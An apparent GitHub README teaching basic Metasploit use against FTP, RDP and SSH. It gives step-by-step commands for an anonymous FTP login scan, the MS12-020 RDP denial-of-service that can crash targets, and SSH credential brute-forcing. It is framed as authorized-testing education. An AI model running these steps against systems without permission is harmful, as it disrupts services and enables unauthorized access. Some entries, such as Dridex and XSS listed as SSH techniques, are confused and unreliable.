



# Exploitation Techniques

This guide outlines basic exploitation techniques for FTP, RDP, and SSH.  **This guide is for educational purposes only. Unauthorized access to computer systems is illegal. Use these techniques only on systems you own or have explicit permission to test.**

## Table of Contents

*   [FTP Exploitation](#ftp-exploitation)
*   [RDP Exploitation](#rdp-exploitation)
*   [SSH Exploitation](#ssh-exploitation)
*   [Important Considerations](#important-considerations)

## FTP Exploitation 

This section covers common FTP vulnerabilities and exploitation techniques.

*   Anonymous Authentication: Exploiting misconfigured FTP servers that allow login without credentials.
*   Directory Traversal: Accessing files and directories outside the intended web root.
*   Cross-Site Scripting (XSS): Injecting malicious scripts (less common in pure FTP but possible if integrated with web services).
*   Dridex:  (Note: Dridex is malware, not a direct FTP exploit. It might be *delivered* via compromised systems, including FTP servers, but it's not an FTP vulnerability itself.)

### Tools

*   Kali Linux
*   Metasploit
    *   `msfconsole`
    *   `msfweb` (less commonly used now)
    *   `msfpayload` (deprecated, use `msfvenom`)
    *   `msfcli` (deprecated)
    *   `msflogdump`

### Payloads

*   Singles: Self-contained payloads.
*   Stagers: Small payloads that download larger "stages."
*   Stages: The components downloaded by stagers.

### Starting an Exploit (Example: Anonymous Login Check)

1.  Open Metasploit: `msfconsole`

2.  Use the anonymous login module: `use auxiliary/scanner/ftp/anonymous`

3.  Set the target IP: `set RHOSTS <target_ip>`

4.  Run the exploit: `run`

### Results

If the FTP port is not open or anonymous login is disabled, the exploit will fail.  The provided image shows a likely failure due to incorrect usage or a closed port.  Review the Metasploit output for specific error messages.

## RDP Exploitation 

This section covers RDP exploitation techniques.

*   Denial of Service (DoS): Overwhelming the RDP service, causing it to crash or become unresponsive. This often targets vulnerabilities.
*   (Note: The README mentions "remote assistance invitations."  This is not directly related to the MS12-020 exploit shown, which is a more serious vulnerability.)

### Starting an Attack (Example: MS12-020 DoS)

1.  Obtain the target IP.

2.  Use the exploit: `use auxiliary/dos/windows/rdp/ms12_020_maxchannelids`

3.  Set the target IP: `set RHOSTS <target_ip>`

    

4.  Run the exploit: `run`

### Result

A successful DoS attack might cause a Blue Screen of Death (BSOD) or make the target unresponsive. The provided image shows a BSOD, which suggests a successful attack (or other system instability).

   

  

## SSH Exploitation 

This section covers SSH exploitation techniques.

  

*   Anonymous Authentication: (Rarely possible) Exploiting misconfigurations that allow login without credentials.
*   Directory Traversal: (Unlikely in a standard SSH setup) More relevant if SSH is used to serve web content.
*   Cross-Site Scripting: (Very unlikely in a standard SSH setup)  Only relevant if SSH is integrated with web services.
*   Dridex: (As with FTP) Not a direct SSH vulnerability but malware that could be present on a compromised system.

 

### Tools

*   Kali Linux
*   Metasploit
    *   `msfconsole`
    *   `msfweb` (less commonly used now)
    *   `msfpayload` (deprecated, use `msfvenom`)
    *   `msfcli` (deprecated)
    *   `msflogdump`

### Payloads

*   Singles
*   Stagers
*   Stages

### Starting an Exploit (Example: Brute-Force Authentication)

1.  Open Metasploit: `msfconsole`

2.  Search for SSH login modules: `search ssh_login`

3.  Use the SSH login module: `use auxiliary/scanner/ssh/ssh_login`

4.  Set the target IP: `set RHOSTS <target_ip>`

5.  Set the username file: `set USER_FILE /home/kali/user.txt` (Important: Create this file)

6.  Set the password file: `set PASS_FILE /home/kali/password.txt` (Important: Create this file)

7.  Run the exploit: `run`

8.  Check sessions: `sessions` (If successful, a session will be created)

### Results

The provided screenshot doesn't show a successful login.  Review the Metasploit output for details.  Brute-forcing requires valid username and password lists.

## Important Considerations 

*   **Legality:** Only perform penetration testing on systems you own or have explicit permission to test.  Unauthorized access is illegal.
*   **Ethics:** Act responsibly and ethically. Do not cause damage or disrupt services.
*   **Payload Usage:** Be extremely careful with payloads.  Understand what they do before deploying them.
*   **Metasploit Usage:**  The examples provided are very basic.  Metasploit has many options and configurations.  Consult the Metasploit documentation for more advanced usage.
*   **Outdated Information:**  Some of the commands and tools mentioned are outdated.  `msfpayload` and `msfcli` are deprecated.  Use `msfvenom` for payload generation.  `msfweb` is less common now.  Keep your tools updated.

This improved README provides a more structured and informative overview of the exploitation techniques. It also emphasizes the importance of ethical considerations and legal compliance. Remember to always prioritize responsible and authorized testing.

  

